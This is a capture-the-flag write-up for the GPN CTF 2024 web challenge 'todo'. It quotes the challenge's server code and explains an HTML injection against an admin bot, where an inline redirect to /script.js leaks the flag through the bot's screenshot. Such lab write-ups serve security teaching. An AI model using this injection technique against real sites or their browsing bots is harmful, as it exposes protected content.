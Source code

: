 # todo

## Description
```
I made a JS API! Sadly I had no time to finish it :(
```

## Provided Files
```
- server.js
- package.json
- package-lock.json
- Dockerfile
```

## Writeup

Starting off, we should realize that it's a `XSS` vulnerability we are working with, the reason being the `admin-bot` which we can send our custom `html` webpage to and also the faulty `server.js` service. <br/>
The flag is located at `/script.js` which should be kept in mind for later. <br/>
```js
class FlagAPI {
    constructor() {
        throw new Error("Not implemented yet!")
    }

    static valueOf() {
        return new FlagAPI()
    }

    static toString() {
        return "<FlagAPI>"
    }

    // TODO: Make sure that this is secure before deploying
    // getFlag() {
    //     return "GPNCTF{FAKE_FLAG_ADMINBOT_WILL_REPLACE_ME}"
    // }
}
```

Although we may inject our malicious html content, some security meassures are still in use. <br/>
The `CSP` which can be seen below prevents us to load external ressources. <br/>
```js
app.post('/chal', (req, res) => {
    const { html } = req.body;
    res.setHeader("Content-Security-Policy", "default-src 'none'; script-src 'self' 'unsafe-inline';");
    res.send(`
        <script src="/script.js"></script>
        ${html}
    `);
});
```

The flag is being injected into `/script.js` but only if a certain cookie is present in the request. <br/>
Sadly we can't simply forge/steal/bruteforce the cookie as it is securely being generated by `require('crypto').randomBytes(32).toString('hex')`. <br/>
```js
app.get('/script.js', (req, res) => {
    res.type('.js');
    let response = script;
    console.log(res.get("cookie"))
    if ((req.get("cookie") || "").includes(randomBytes)) response = response.replace(/GPNCTF\{.*\}/, flag)
    res.send(response);
});
```

Stealing the cookie is also not possible because `httpOnly` prevents us from accessing certain ressources including the cookie. <br/>
The only way of obtaing the `flag` therefore is to access the actual contents of `/script.js` because the function `getFlag()` is commented out. <br/>
If the `getFlag()` function wasn't commented out we could use `FlagAPI.prototype.valueOf().getFlag()` to retrieve the flag. <br/>
```js
app.post('/admin', async (req, res) => {
    try {
        const { html } = req.body;
        const browser = await puppeteer.launch({ executablePath: process.env.BROWSER, args: ['--no-sandbox'] });
        const page = await browser.newPage();
        page.setCookie({ name: 'flag', value: randomBytes, domain: 'localhost', path: '/', httpOnly: true });
        await page.goto('http://localhost:1337/');
        await page.type('input[name="html"]', html);
        await page.click('button[type="submit"]');
        await new Promise(resolve => setTimeout(resolve, 2000));
        const screenshot = await page.screenshot({ encoding: 'base64' });
        await browser.close();
        res.send(`<img src="data:image/png;base64,${screenshot}" />`);
    } catch(e) {console.error(e); res.send("internal error :( pls report to admins")}
});
```

Since the only possibility to obtain the flag is the direct access to `/script.js` we need to look at the `admin-bot` functionality which in our case returns a `screenshot` of the current web-page after 2 seconds (2000ms). <br/>
Knowing this we should search for a possibiltiy to change the `admin-bots` location to `/script.js` of which afterwards a `screenshot` will be made and returned to us. <br/>
To change the location of the current web-page of the `admin-bot` we can use javascript to change the current `document.location`. <br/>
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <h1>Hey</h1>
    <p id="flagParagraph"></p>

    <script>
        document.location.replace('/script.js')
    </script>
    <h1>yes</h1>
</body>
</html>
```

Sending the simple `html` webpage above to the `admin-bot` we obtain the screenshot below which concludes this writeup. <br/>
<div style="text-align:center;">
    <img src="https://github.com/Aryt3/writeups/blob/main/jeopardy_ctfs/2024/GPN_CTF_2024/todo/flag.png" alt="Image" />
</div>